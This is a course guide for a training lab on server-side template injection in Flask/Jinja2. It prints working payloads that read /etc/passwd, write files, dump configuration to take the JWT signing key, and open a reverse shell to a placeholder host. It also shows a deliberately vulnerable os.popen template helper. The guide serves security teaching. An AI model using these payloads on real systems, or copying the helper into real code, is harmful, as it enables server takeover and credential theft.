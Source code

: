 # Server side template injection

This is the course guide for server-side template injection.

Template engines are widely used by web applications to present dynamic data via web pages and emails. Unsafely embedding user input in templates enables Server-Side Template Injection, a frequently critical vulnerability that is extremely easy to mistake for Cross-Site Scripting (XSS), or miss entirely. Unlike XSS, Template Injection can be used to directly attack web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

Follow the full source to find how to discover this vulnerability and how to determine the templating engine
that is being used by the application.

[full source here](https://portswigger.net/blog/server-side-template-injection)

### Objective 

* Use template injection to read the flask "configurations" such as the secret for signing JWT tokens
* Use template injection to envoke a local function to leverage RCE

#### Semi spoiler!

Included [here](https://github.com/RiieCco/owasp-bay-area/tree/master/course-guide/server-side-template-injection/report.html) is the scan report of a Burp intruder scan on the target. Use this scan report to pinpoint the exact location of the vulnerability.


#### This works for python 2

Jinja2 - Read remote file
```
# ''.__class__.__mro__[2].__subclasses__() = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

Jinja2 - Write into remote file
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```
Jinja2 - Remote Code Execution via reverse shell
Listen for connexion
```
nv -lnvp 8000
```

Inject this template
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

#### However we use python3 

In this scenario we use python3 to leverage the attack so the method as mentioned above is no longer
valid. We need to find other ways for exploitation. Even without nice methods to iterate the subclasses 
as with python3 we can still get a lot of interesting information about the system.

try to inject:

```
{{ config.items() }}
```

Here we find al the different configurations of the target. Amongst others we find the 

```
('SECRET_KEY', 'random')
```

This key is used to sign the JWT tokens and can iie be used to gain unauthorized access to the
application.

#### Spoiler - exploitation of the target.

The developer of this application thought it was a good idea to have a generic function for his
monitoring and make this function callable by the templating engine, this way he could easilly utilize 
system commands on a easy and secure way (or so he thought) to monitor the system.

We can now abuse the template expression to invoke this command with our own 
system command injection like

```
http://0.0.0.0:8081/{{system_call('netcat listener pwn')}}
```

Here follows the code that is responsible for the vulnerability:

```
@app.context_processor
def utility_processor():
    def system_call(command):
        output = os.popen(command).read()
        return output
    return dict(system_call=system_call)
